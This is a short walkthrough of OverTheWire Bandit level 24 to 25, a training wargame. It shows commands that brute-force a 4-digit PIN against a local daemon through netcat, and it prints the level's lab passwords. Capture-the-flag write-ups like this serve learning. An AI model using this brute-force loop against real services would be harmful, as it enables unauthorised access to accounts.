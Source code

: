 ```yaml
---
title: OverTheWire Bandit Level 24 - 25
date: 2022-07-29T07:00:00
tags: [OverTheWire, Bandit, Linux, shell, networking]
---
```

# Prompt
> A daemon is listening on port 30002 and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit PIN code. There is no way to retrieve the PIN code except by going through all of the 10000 combinations, called brute-forcing.

# Solution
```sh
$ ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit.labs.overthewire.org password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> bandit24.log; done
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ cat bandit24.log | nc localhost 30002 > bandit25.log
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ grep -v "Wrong!" bandit25.log
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# References
* MayADevBe. (2022, May 30). OverTheWire Bandit Level 24 - 25. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level25/>